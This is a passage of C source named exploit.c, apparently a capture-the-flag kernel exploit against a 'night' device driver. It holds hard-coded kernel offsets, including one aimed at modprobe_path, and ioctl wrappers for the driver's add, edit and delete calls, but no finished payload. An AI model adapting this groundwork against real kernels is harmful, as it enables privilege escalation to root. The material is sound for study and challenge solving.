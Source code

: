 ```exploit.c
  char unset2[0x16];
  uint randval;
  char unset[0x14];
  char unknown2[0x10];
  char data[0x20];
} night;

struct userreq{
  char unknown2[0x10];
  char data[0x20];
  uint target_randval;
  uint uunknown1;
  ulong offset;
  uint size;
};

/*********** globals ******************/

int night_fd = -1;
const ulong diff_master_list_edit = 0xffffffffc0002100 - 0xffffffffc0000010;
const ulong diff_modprobe_path = 0xffffffff8244fca0 - 0xffffffff81000000;

// (END globals)

long night_ioctl(ulong cmd, void *req) {
  if (night_fd == -1) errExit("night_fd is not initialized.");
  long ret = ioctl(night_fd, cmd, req);
  assert(ret != -1);
  return ret;
}

uint night_info(void) {
  long diff = night_ioctl(NIGHT_INFO, NULL);
  return diff;
}

uint night_add(char *buf, ulong offset, uint size) {
  struct userreq req = {
    .offset = offset,
    .size = size,
  };
  memcpy(req.data, buf, 0x20);
  long ret = night_ioctl(NIGHT_ADD, &req);
  assert(ret != -1);
  return ret;
}

void night_edit(char *buf, uint target_randval, ulong offset, uint size) {
  struct userreq req = {
    .offset = offset,
    .size = size,
    .target_randval = target_randval,
  };
  memcpy(req.data, buf, 0x20);
  assert(night_ioctl(NIGHT_EDIT, &req) == 0);
}

void night_del(uint target_randval) {
  struct userreq req = {
    .target_randval = target_randval,
  };
  assert(night_ioctl(NIGHT_DEL, &req) == 0);
}
```
